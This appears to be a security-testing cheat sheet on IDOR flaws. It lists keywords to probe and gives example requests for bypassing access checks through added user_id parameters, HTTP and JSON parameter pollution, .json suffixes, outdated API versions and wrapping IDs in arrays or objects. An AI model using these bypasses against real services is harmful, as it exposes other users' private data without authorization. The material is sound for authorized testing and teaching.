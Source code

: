 # IDOR

## Basics

```text
Check for valuable words:
{regex + perm} id
{regex + perm} user
{regex + perm} account
{regex + perm} number
{regex + perm} order
{regex + perm} no
{regex + perm} doc
{regex + perm} key
{regex + perm} email
{regex + perm} group
{regex + perm} profile
{regex + perm} edit
```

## Bypasses

* Add parameters onto the endpoints for example, if there was

```text
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

* HTTP Parameter pollution

```text
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

* Add .json to the endpoint, if it is built in Ruby!

```text
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

* Test on outdated API Versions

```text
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

Wrap the ID with an array.

```text
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

Wrap the ID with a JSON object:

```text
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

JSON Parameter Pollution:

```text
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

